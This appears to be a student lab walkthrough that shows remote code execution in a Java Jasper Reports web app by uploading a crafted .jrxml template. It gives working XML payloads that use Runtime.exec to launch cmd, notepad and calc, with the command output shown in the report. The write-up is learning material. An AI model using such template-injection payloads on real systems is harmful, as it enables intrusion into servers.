

# LAB 4 WALKTHROUGH: DECENTRALIZATION VULNERABILITY

## Define the target
We have to RCE a Java-based Jasper Reports generator web app like below:


## Investigate

All of us will think about File Upload vulnerabilities firstly, let's wander around the website and do what user usually do!


After getting the `template.jrxml` file, let's edit nothing and submit it to the website:


Wondering what the template looks like:


Not very used to `.jrxml` file type, but there is some Java lines here. What if we insert some Java functions here?

## File Upload Vulnerability

Using ChatGPT to generate a `<variable>` tag contains `Scanner` object which takes an InputStream as its parameter, in this case, to execute a command:

```xml
<variable name="myScanner" class="java.util.Scanner" resetType="None">
    <variableExpression><![CDATA[new java.util.Scanner(java.lang.Runtime.getRuntime().exec("cmd").getInputStream()).useDelimiter("\\A")]]></variableExpression>
</variable>
```

Let's try to launch `cmd` first, the ideal result is the Command Prompt can pop up after submitting the Jasper Report:


What we received is a report with some information about Windows version and the location of the web hosting file structure. Not kindly what we are expecting!

Now let's try other kinds of commands!

## Vulnerability exploit

```xml
<variable name="myScanner" class="java.util.Scanner" resetType="None">
    <variableExpression><![CDATA[new java.util.Scanner(java.lang.Runtime.getRuntime().exec("notepad").getInputStream()).useDelimiter("\\A")]]></variableExpression>
</variable>
```
```xml
<textField isStretchWithOverflow="true">
    <reportElement positionType="Float" x="40" y="0" width="110" height="11"/>
    <textElement/>
    <textFieldExpression class="java.lang.String"><![CDATA[$V{myScanner}.next()]]></textFieldExpression>
</textField>
```
Here are the two payloads that hopefully can pop up Windows Notepad. Now insert into the `template.jrxml` file and execute it!


A bunch of Notepad window pop up here, seems like it works!

Try with the Windows default Calculator app:
```xml
<variable name="myScanner" class="java.util.Scanner" resetType="None">
    <variableExpression><![CDATA[new java.util.Scanner(java.lang.Runtime.getRuntime().exec("calc").getInputStream()).useDelimiter("\\A")]]></variableExpression>
</variable>
```
